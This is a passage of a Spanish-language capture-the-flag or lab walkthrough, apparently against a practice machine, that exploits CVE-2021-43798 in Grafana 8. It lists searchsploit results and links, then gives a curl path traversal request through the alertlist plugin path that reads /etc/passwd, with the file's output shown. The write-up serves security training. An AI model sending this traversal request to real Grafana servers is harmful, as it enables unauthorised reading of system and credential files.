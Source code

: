 - Si empleamos las credenciales por defecto aun así no funcionan.

<p align="center">
<img src="https://i.imgur.com/twqbdcY.png">
</p>

- Si buscamos vulnerabilidades encontramos un **Directory Traversal and Arbitrary File Read**.

```bash
➜  nmap searchsploit grafana 8
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                          | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                      | multiple/webapps/50581.py
Grafana <=6.2.4 - HTML Injection                                                                                 | typescript/webapps/51073.txt
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Si inspeccionamos el script vemos como funciona la vulnerabilidad.

<p align="center">
<img src="https://i.imgur.com/CTYKQBF.png">
</p>

- Si buscamos vulnerabilidades vemos que como tal si existe la vulnerabilidad y podemos explotarla <https://pentest-tools.com/vulnerabilities-exploits/grafana-v8x-arbitrary-file-read_2187> .

- Aquí nos dicen como funciona <https://github.com/taythebot/CVE-2021-43798>. 

- Si enviamos una petición con el método **GET** vemos que obtenemos el **/etc/passwd** .

```bash
➜  nmap curl --path-as-is http://10.10.86.89:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
```